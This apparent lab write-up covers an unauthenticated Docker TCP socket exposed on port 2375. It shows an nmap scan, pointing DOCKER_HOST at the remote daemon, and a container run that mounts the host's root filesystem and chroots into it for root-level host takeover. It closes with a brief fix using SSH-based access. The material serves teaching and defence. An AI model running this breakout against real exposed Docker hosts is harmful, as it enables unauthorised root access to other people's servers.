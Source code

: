 ```yaml
---
title: 'Securely Accessing Remote Docker Host'
date: '2021-08-16'
description: 'The Docker TCP socket by default doesn't support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root.'
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
posttype: article
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```